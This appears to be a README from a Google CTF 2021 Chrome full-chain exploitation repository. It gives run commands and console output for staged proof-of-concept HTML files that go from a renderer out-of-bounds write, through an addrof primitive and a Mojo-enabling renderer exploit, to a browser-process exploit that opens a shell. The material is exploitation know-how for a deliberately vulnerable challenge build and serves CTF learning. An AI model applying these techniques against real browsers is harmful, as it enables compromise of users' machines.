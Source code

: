 This directory contains the HTML files that can be loaded into the vulnerable chrome challenge to demonstrate the different stages of exploitation.

They should be copied to wherever the chromium directory is and depending on the stage of the exploit, executed with different commands.

Importantly, the location of the mojo_bindings import should be adjusted if the path is different on your system.

#### Example Usages:

[0-renderer-crash.html](0-renderer-crash.html) demonstrates the minimum proof-of-concept code for triggering the out-of-bounds write vulnerability in order to crash the renderer process. The minimum flags for running chrome are provided in the command below.
```bash
$ ./chrome --headless --disable-gpu --enable-logging=stderr --user-data-dir=/tmp/userdata 0-renderer-crash.html
[1111/084548.510303:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084548.527723:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084548.527725:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084548.556097:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
[1111/084548.568399:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
Received signal 11 SEGV_ACCERR 2404512217ff
#0 0x55dc854a95c9 base::debug::CollectStackTrace()
#1 0x55dc85414763 base::debug::StackTrace::StackTrace()
#2 0x55dc854a90f1 base::debug::(anonymous namespace)::StackDumpSignalHandler()
#3 0x7f6f0d39c3c0 (/usr/lib/x86_64-linux-gnu/libpthread-2.31.so+0x153bf)
#4 0x55dc84b81860 Builtins_ObjectToString
  r8: 0000000000000000  r9: 0000240408048771 r10: 00003218002a4fc9 r11: 000032180020c1da
 r12: 0000321800508000 r13: 0000321800508000 r14: 0000240400000000 r15: 0000240408204b09
  di: 00000000000080de  si: 0000240408203e99  bp: 00007ffc3e58a430  bx: 0000000000000000
  dx: 0000240408004b71  ax: 0000240408048771  cx: 0000240451221800  sp: 00007ffc3e58a408
  ip: 000055dc84b81860 efl: 0000000000010287 cgf: 002b000000000033 erf: 0000000000000004
 trp: 000000000000000e msk: 0000000000000000 cr2: 00002404512217ff
[end of stack trace]
[1111/084548.735641:ERROR:headless_shell.cc(423)] Abnormal renderer termination.
```

[0-renderer-addrof-dbg.html](0-renderer-addrof-dbg.html) demonstrates the minimum proof-of-concept code for using the out-of-bounds write vulnerability to create the addrof object primitive. Additionally, it demonstrates the debugging technique of introducing an infinite loop on a non-crashing function in order to debug the renderer process.
```bash
$ ./chrome --headless --disable-gpu --enable-logging=stderr --user-data-dir=/tmp/userdata 0-renderer-addrof-dbg.html 
[1111/084719.469815:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084719.488287:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084719.488274:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084719.514548:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
[1111/084719.543897:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084719.558807:INFO:CONSOLE(24)] "1111", source: file:///home/user/full-chain-practice/google-ctf-21/full_chain/exploits/browser/0-renderer-addrof-dbg.html (24)
```

[1-renderer-exploit.html](1-renderer-exploit.html) demonstrates the renderer exploit which enables mojo in the browser process. The `--remote-debugging-port=9222` flag must be added to the command for running chrome in order to execute the next phase of the exploit assuming that [2-browser-exploit.html](2-browser-exploit.html) is available in the same current directory for chrome to access.
```bash
./chrome --headless --disable-gpu --enable-logging=stderr --user-data-dir=/tmp/userdata 1-renderer-exploit.html 
[1111/085014.488743:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085014.507291:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085014.517018:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085014.531820:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
[1111/085014.558891:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085014.581410:INFO:CONSOLE(126)] "[+] Renderer exploit!", source: file:///home/user/Public/chromium/1-renderer-exploit.html (126)
[1111/085014.581654:INFO:CONSOLE(53)] "[+] z.length = 17476", source: file:///home/user/Public/chromium/1-renderer-exploit.html (53)
[1111/085014.581840:INFO:CONSOLE(59)] "[+] heap_upper = 0xce00000000", source: file:///home/user/Public/chromium/1-renderer-exploit.html (59)
[1111/085014.589288:INFO:CONSOLE(105)] "[+] addr_div = 0xce080519d0", source: file:///home/user/Public/chromium/1-renderer-exploit.html (105)
[1111/085014.589331:INFO:CONSOLE(107)] "[+] <HTMLDivElement> = 0x555c535cb7c0", source: file:///home/user/Public/chromium/1-renderer-exploit.html (107)
[1111/085014.589350:INFO:CONSOLE(109)] "[+] chrome_base = 0x555c47410000", source: file:///home/user/Public/chromium/1-renderer-exploit.html (109)
[1111/085014.589366:INFO:CONSOLE(115)] "[+] Overwriting flags..", source: file:///home/user/Public/chromium/1-renderer-exploit.html (115)
[1111/085014.690607:INFO:CONSOLE(220)] "[+] Browser exploit!", source: file:///home/user/Public/chromium/2-browser-exploit.html (220)
```

[2-browser-exploit.html](2-browser-exploit.html) demonstrates the browser exploit that exploits the vulnerable CtfInterface object introduced into mojo in order to execute a user-privileged shell. Importantly, the mojo_bindings path must be available and imported properly in the HTML. We can test this exploit individually by enabling mojo with the `--enable-blink-features=MojoJS` command-line flag and the `--remote-debugging-port=9222`. The full command and example usage is listed below. This exploit may take multiple throws to complete successfully.
```bash
$ ./chrome --headless --enable-blink-features=MojoJS --disable-gpu --remote-debugging-port=9222 --enable-logging=stderr --user-data-dir=/tmp/userdata 2-browser-exploit.html 
[1111/085844.500026:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085844.518774:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085844.525945:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 

DevTools listening on ws://127.0.0.1:9222/devtools/browser/34ef734a-0c9f-4410-af0e-b6906cf1e65a
[1111/085844.558952:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
[1111/085844.565969:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085844.683590:INFO:CONSOLE(220)] "[+] Browser exploit!", source: file:///home/user/Public/chromium/2-browser-exploit.html (220)
[1111/085844.929893:INFO:CONSOLE(92)] "[+] offset = -4768", source: file:///home/user/Public/chromium/2-browser-exploit.html (92)
[1111/085844.929940:INFO:CONSOLE(94)] "[-] Bad luck!", source: file:///home/user/Public/chromium/2-browser-exploit.html (94)
[1111/085845.004762:INFO:CONSOLE(220)] "[+] Browser exploit!", source: file:///home/user/Public/chromium/2-browser-exploit.html (220)
[1111/085845.245462:INFO:CONSOLE(92)] "[+] offset = -24860", source: file:///home/user/Public/chromium/2-browser-exploit.html (92)
[1111/085845.245500:INFO:CONSOLE(94)] "[-] Bad luck!", source: file:///home/user/Public/chromium/2-browser-exploit.html (94)
[1111/085845.318878:INFO:CONSOLE(220)] "[+] Browser exploit!", source: file:///home/user/Public/chromium/2-browser-exploit.html (220)
[1111/085845.552275:INFO:CONSOLE(92)] "[+] offset = 46352", source: file:///home/user/Public/chromium/2-browser-exploit.html (92)
[1111/085845.552314:INFO:CONSOLE(97)] "[+] addr_ctfi = 0x116600ef4aa0", source: file:///home/user/Public/chromium/2-browser-exploit.html (97)
[1111/085845.552332:INFO:CONSOLE(98)] "[+] addr_elm = 0x116600e9a220", source: file:///home/user/Public/chromium/2-browser-exploit.html (98)
[1111/085845.552347:INFO:CONSOLE(99)] "[+] chrome_base = 0x55ed5d7b3000", source: file:///home/user/Public/chromium/2-browser-exploit.html (99)
[1111/085845.552580:INFO:CONSOLE(107)] "[+] Probing victim...", source: file:///home/user/Public/chromium/2-browser-exploit.html (107)
[1111/085845.623435:INFO:CONSOLE(137)] "[+] Found victim!", source: file:///home/user/Public/chromium/2-browser-exploit.html (137)
[1111/085845.632756:INFO:CONSOLE(216)] "[+] Done", source: file:///home/user/Public/chromium/2-browser-exploit.html (216)
$ whoami
user
```
